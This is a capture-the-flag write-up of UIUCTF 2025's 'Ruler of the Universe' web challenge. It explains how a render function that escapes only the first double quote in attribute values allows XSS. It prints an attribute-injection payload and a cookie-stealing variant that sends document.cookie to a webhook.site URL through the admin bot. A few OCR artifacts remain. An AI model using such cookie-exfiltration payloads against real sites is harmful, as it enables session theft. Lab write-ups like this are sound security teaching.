 ```yaml
---
title: UIUCTF 2025 - Ruler of the Universe
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - Typescript
  - xss
authors:
  - Valenter
---
```

*With this ship I have the entire universe at my fingertips.*

Hi everyone, this is the first and easiest in a series of four sci-fi-inspired cosmic-web challenges from uiuctf. I only solved the first three, while my teammate simonedimaria worked on the fourth one, so I will only be tackling those.

First of all, let's take a second to appreciate the homepage of the challenge.
![Homepage](/uiuctf2025/ruler-of-the-universe/screenshot-1.png)

Straight out of last-century digital retrofuturism, System Shock or Neuromancer come to mind.

## Full diagnostic sweep of the mainframe

There's an *Admin Bot* link at the top, which points us in the direction of XSS.
![Admin-Bot](/uiuctf2025/ruler-of-the-universe/screenshot-2.png)

That's cool and all, but what can we actually interact with? Let's open those ominous Astra Main Frame modules at the bottom:
![Modules](/uiuctf2025/ruler-of-the-universe/screenshot-3.png)

Looks like we can leave a message for the crew, and it will appear under **Messages** at the bottom. Hmm, looks suspicious, let's pull up the ship's source code:

```ts
// module.tsx
const Module = ({
  id,
  crewMessage,
}: {
  id: number;
  crewMessage: string | null | undefined;
}) => {
  // ...
  <form class="mt-4" method="GET">
    <label for="message" class="block text-sm mb-1">
      Crew Message:
    </label>
    <input
      id="message"
      name="message"
      type="text"
      class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
      placeholder={
        crewMessage
          ? `Update your message: ${crewMessage}`
          : "Enter a message for the crew"
      }
    />
  </form>
  // ...
};
:contentReference[oaicite:2]{index=2}
```

`crewMessage` is taken directly from `index.tsx`'s `const crewMessage = new URL(req.url).searchParams.get("message");` and interpolated into the *placeholder*.
Diving deeper into how all of this gets rendered onto the page:

```ts
import { escapeHTML } from "bun";

export function render(element: any): string {
  if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
  }
//...
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          // Here is where double quotes are improperly escaped
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";

  const openTag = propString ? `<${type} ${propString}>` : `<${type}>`;
  return `${openTag}${children}</${type}>`;
}
```

The render function employs Bun's `escapeHTML`,  which makes the following replacements:
- `"` becomes `"&quot;"`
- `&` becomes `"&amp;"`
- `'` becomes `"&#x27;"`
- `<` becomes `"&lt;"`
- `>` becomes `"&gt;"`

however, it only does so for strings and numbers; for attributes, a much weaker substitution is in place:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```
but `replace` only takes care of the first instance of the character in a string.

## Initiating the breach protocol

Knowing all this, and with a bit of trial and error, we can craft a working payload:

```js
crewMessage = img"" /><img src=x onerror="alert(1)" x="
```

During serialization:
- the first `"` in `img""` becomes `&quot;`
- the second `"` closes the `img` attribute

the final markup becomes:

```js
<input … placeholder="Update your message: img&quot;"
/>
<img src=x onerror="alert(1)" x=>
```

Now it's only a matter of adapting it to our purposes:

```js
img"" /><img src=x onerror="fetch(\'%s?c=\'+encodeURIComponent(document.cookie))" x="
```

Finally, we encode it into the full URL and send a POST request with the link to the Admin Bot to visit the page and retrieve the flag, which is in the bot's cookies, by forwarding it to our webhook:

```
https://inst-8be5f028661a5917-ruler-of-the-universe.chal.uiuc.tf/module/0?message=img%22%22%20%2F%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F66ce23cb-d0e5-4bf5-9016-58351c7f0d51%3Fc%3D%27%2BencodeURIComponent%28document.cookie%29%29%22%20x%3D%22
```

**`uiuctf{maybe_i_should_just_use_react_c49b79}`**